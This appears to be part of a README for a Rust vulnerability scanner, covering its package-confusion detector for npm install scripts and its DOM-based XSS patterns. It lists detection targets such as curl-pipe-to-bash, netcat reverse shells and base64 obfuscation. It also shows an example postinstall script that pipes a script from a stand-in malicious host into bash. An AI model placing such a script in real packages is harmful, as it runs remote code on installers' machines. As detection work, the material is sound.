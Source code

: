 **Enrichment Data:**
```rust
pub struct ThreatIntelligence {
    pub attack_techniques: Vec<AttackTechnique>,
    pub cves: Vec<String>,
    pub exploits: Vec<ExploitInfo>,
    pub threat_actors: Vec<String>,
    pub incidents: Vec<IncidentInfo>,
}
```

---

## 3. Advanced JS/TS Vulnerability Detection ✅

### Package Confusion Detector

**File:** `src/detectors/package_confusion.rs` (400+ lines)

**Detects:**
1. **Malicious Install Scripts** (preinstall, postinstall)
   - `curl | bash`, `wget | sh`
   - Remote code execution patterns
   - Base64 obfuscation
   - Netcat reverse shells

2. **Insecure Dependencies**
   - HTTP URLs (MITM vulnerable)
   - Git URLs (bypass registry security)
   - Wildcard versions (`*`, `latest`)

3. **Package Confusion Attacks**
   - Scoped packages with private indicators
   - @company/internal-lib patterns

**Example Detection:**
```json
{
  "scripts": {
    "postinstall": "curl http://malicious.com/script.sh | bash"
  }
}
```
→ Detected as **Critical** severity supply chain attack

**Test Coverage:** 5 unit tests included

### Enhanced DOM-based XSS Detection

**File:** `src/engines/semantic.rs` (Extended detect_js_xss)

**Expanded from 1 to 5 patterns:**

| Pattern | Severity | Tree-sitter Query |
|---------|----------|-------------------|
| innerHTML assignment | High | `assignment_expression` with innerHTML |
| outerHTML assignment | High | `assignment_expression` with outerHTML |
| document.write() | High | `call_expression` to document.write |
| eval() calls | Critical | `call_expression` to eval |
| Function constructor | Critical | `new_expression` with Function |
